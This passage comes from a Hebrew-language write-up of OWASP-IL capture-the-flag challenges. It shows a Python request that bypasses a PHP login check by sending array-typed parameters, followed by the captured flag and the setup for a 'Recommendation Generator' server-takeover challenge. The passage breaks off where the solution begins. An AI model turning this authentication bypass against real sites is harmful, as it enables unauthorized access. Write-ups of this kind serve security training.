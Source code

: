 <p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>נראה מתאים.</span></p>

```python
import requests
r = requests.post('http://challenges.owaspil.ctf.today:8082/login.php', data = {"username[]": "a", "md5[]": "a"})
print (r.text)
```

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=EN-US style='font-family:"Courier New"'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>והתוצאה:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><b><span lang=EN-US dir=LTR>OWASP-IL{PHP_1s_S0_B4d_Th4t_1t_Hurts}</span></b></p>
<b><span lang=EN-US style='font-size:11.0pt;line-height:107%;font-family:"Calibri",sans-serif'><br
clear=all style='page-break-before:always'>
</span></b>
<p class=MsoNormal><b><span lang=EN-US>&nbsp;</span></b></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 11 - </span><span
lang=EN-US dir=LTR>Recommendation Generator</span><span dir=RTL></span><span
lang=HE style='font-family:"Times New Roman",serif'><span dir=RTL></span> (רמת
קושי בינונית, 500 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span lang=en-IL>Hi Guys, I need your help!<br>
Someone hacked my recommendation system and i can't found the security breach.<br>
Can you demonstrate the hacker's steps in order to take over the server and
send me the flag?</span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8087/">http://challenges.owaspil.ctf.today:8087/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כניסה לאתר מציגה את
הדף הבא:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR><img border=0 width=602 height=235
id="Picture 31" src="images/image032.jpg"></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הכנסה של פרטים
מייצרת המלצה אקראית:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR><img border=0 width=601 height=250
id="Picture 32" src="images/image033.jpg"></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=EN-US dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=EN-US dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=EN-US dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הדבר הראשון ששמתי